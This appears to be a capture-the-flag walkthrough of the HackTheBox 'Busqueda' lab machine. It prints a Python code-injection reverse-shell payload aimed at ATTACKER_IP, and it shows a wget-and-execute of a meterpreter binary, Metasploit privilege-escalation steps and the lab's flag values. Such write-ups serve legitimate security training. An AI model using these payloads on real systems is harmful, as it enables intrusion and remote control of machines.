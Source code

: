 
# HTB Walkthrough - Busqueda

**Machine Name**: Busqueda  
**Target IP**: 10.129.178.117  
![webpage](img/webpage.png)

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Busqueda 10.129.178.117
```
![nmap](img/nmap.png)

**Results:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
```

> Add to /etc/hosts:
```
10.129.178.117  searcher.htb
```

---

## 🌐 Web Enumeration

- Browsing to `http://searcher.htb/` brings up a custom search engine.  
![poweredby](img/poweredby.png)

- The site takes input and appends it to a search URL (e.g., Bing).
- Input like `'+'` shows it's vulnerable to code injection.  
![test](img/test.png)  
![result](img/result.png)

### 🧪 Exploiting Code Injection

Python-based reverse shell payload:

```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Setup reverse shell listener:

```bash
nc -nlvp 9999
```

- Submit payload via search input → Shell received.  
![reverseshell](img/reverseshell.png)

Stabilize shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
```

---

## 🧑‍💻 User Flag

```bash
cat user.txt
# 54a7ce58f5cb31e7226f192a4d687df1
```
![userflag](img/userflag.png)

---

## ⬆️ Privilege Escalation

### 🔍 No sudo or SUID escalation found.

Use Metasploit local exploit suggester:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <ATTACKER_IP>
run

# On victim:
wget http://<ATTACKER_IP>:8888/meterpreter.elf
chmod +x meterpreter.elf
./meterpreter.elf

# In meterpreter:
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
![recon](img/recon.png)

### Exploitable Vulnerabilities:

- CVE-2022-0847 (DirtyPipe) → Failed
- CVE-2023-0386 (OverlayFS) → Failed
- glibc_tunables_priv_esc → ✅ **Succeeded**

```bash
use exploit/linux/local/glibc_tunables_priv_esc
set SESSION 1
run
```
![exploit](img/exploit.png)

```bash
meterpreter > getuid
# Server username: root
```

---

## 🔐 Root Flag
![rootflag](img/rootflag.png)

```bash
cat /root/root.txt
# a5e11ed334c867dcbc276a41796289f6
```

---

✅ **Root shell obtained via glibc tunables LPE.**
